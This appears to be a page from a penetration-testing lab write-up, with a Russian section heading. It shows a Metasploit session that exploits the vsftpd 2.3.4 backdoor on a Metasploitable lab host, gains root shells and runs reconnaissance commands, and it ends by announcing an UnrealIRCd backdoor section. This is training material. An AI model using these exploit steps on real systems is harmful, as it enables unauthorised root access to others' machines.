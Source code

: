 ```bash
msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
[*] No payload configured, defaulting to cmd/unix/interact

msf6 exploit(unix/ftp/vsftpd_234_backdoor) > RHOSTS
[-] Unknown command: RHOSTS
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 192.168.56.109
RHOSTS => 192.168.56.109
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit

[*] 192.168.56.109:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 192.168.56.109:21 - USER: 331 Please specify the password.
[+] 192.168.56.109:21 - Backdoor service has been spawned, handling...
[+] 192.168.56.109:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened (192.168.56.108:45857 -> 192.168.56.109:6200) at 2023-03-25 06:40:09 -0400

whoami
root
hostname
metasploitable
hostname -i
127.0.1.1
exit
[*] 192.168.56.109 - Command shell session 1 closed.

msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit

[*] 192.168.56.109:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 192.168.56.109:21 - USER: 331 Please specify the password.
[+] 192.168.56.109:21 - Backdoor service has been spawned, handling...
[+] 192.168.56.109:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 2 opened (192.168.56.108:44053 -> 192.168.56.109:6200) at 2023-03-25 06:44:32 -0400

hostname
metasploitable
ip a | grep eth1
3: eth1: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast qlen 1000
    inet 192.168.56.109/24 brd 192.168.56.255 scope global eth1
cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       metasploitable.localdomain      metasploitable


```

### Уязвимость 2 на 6667 порту - 	UnrealIRCd 3.2.8.1 - Backdoor Command Execution (Metasploit)
